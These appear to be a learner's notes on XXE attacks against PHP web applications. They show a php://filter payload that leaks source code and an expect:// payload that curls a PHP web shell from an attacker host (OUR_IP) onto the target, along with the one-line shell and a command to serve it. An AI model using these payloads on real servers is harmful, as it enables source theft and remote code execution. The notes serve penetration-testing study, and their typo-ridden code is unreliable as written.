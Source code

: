 - Reading Soruce Code:
Another benefit of local file disclosure is the ability to obtain the source code of the web app. This would allow us to perform A Whitebox penetratrion Test to unveil more vulnerabilities in the web app, or at the very least reveal secret configuration like database pass or API key.
Let us see if we can use the same attack to read the source code of the index.php fie:
As we can see this did not work, as we didi not ge any content. This happeend cause the file we are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity.
If a file contains some a XML special character would break the external entity reference and not be used for the reference. We cannot read any binary data, as it would also not conform to the XML format.
PHP provide wrapper fileters that allow to base64 encode certain resource 'including files', which case the final base64 output should not break the XML format. Instead of using [file://] we will user PHP [php://filter/] wrapper.
We can specify the convert.base64-encode encoder as our filter and then add an input resource [resource=index.php]:
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
Thsi reich only works in PHP apps.

- Remote code Execution with XXE:
In addition to reading local files, we may be able to gain code execution over the remote server, the ez method would be to look for ssh keys, ot attempt to utilize a hash
stealing trick in Windows based web-apps, by making a call to our server, If these to not work, we may still be able to execute commands on PHP-based web aps through the PHP://expect fileter,
though this requires the PHP expect module to be installed and enabled.

If the  XXE directly prints its output as shown in this section; then we can execute basic commands aas [expect://id] and the page should print the command output. If we
did not have access to the output, or needed to execute a more complicated command reverse shell, then the XML syntax may break and teh command may not execute.
The mod efficient method to turn XXE into a RCE is by fetching a web shell form our server and writing it to web app, and thgen we cna interct with it to execute commands.
```sh
echo '<?php sytem($_REQUEST["cmd]);?>' > shel.php
sudo python3 -m http.server 80
```
Now we ccna use the following XML code to execute a curl command that dowloads our web shell into the remote server:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
Note: We replaced all spaces in the above XML code with $IFS, to avoid breaking the XML syntax. Furthermore, many other characters like |, >, and { may break the code, so we should avoid using them.
Note: The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.
